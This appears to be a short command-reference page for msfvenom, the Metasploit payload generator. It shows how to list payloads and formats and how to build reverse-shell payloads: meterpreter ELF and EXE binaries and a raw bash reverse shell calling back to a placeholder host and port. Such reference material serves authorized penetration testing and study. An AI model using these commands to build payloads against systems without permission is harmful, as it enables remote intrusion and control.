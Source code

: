 # msfvenom

> Manually generate payloads for metasploit. More information: <https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html>.

## Examples

### List payloads

```bash
msfvenom [-l|--list] payloads
```

### List formats

```bash
msfvenom [-l|--list] formats
```

### Show payload options

```bash
msfvenom [-p|--payload] payload --list-options
```

### Create an ELF binary with a reverse TCP handler

```bash
msfvenom [-p|--payload] linux/x64/meterpreter/reverse_tcp LHOST=local_ip LPORT=local_port [-f|--format] elf [-o|--out] path/to/binary
```

### Create an EXE binary with a reverse TCP handler

```bash
msfvenom [-p|--payload] windows/x64/meterpreter/reverse_tcp LHOST=local_ip LPORT=local_port [-f|--format] exe [-o|--out] path/to/binary.exe
```

### Create a raw Bash with a reverse TCP handler

```bash
msfvenom [-p|--payload] cmd/unix/reverse_bash LHOST=local_ip LPORT=local_port [-f|--format] raw
```
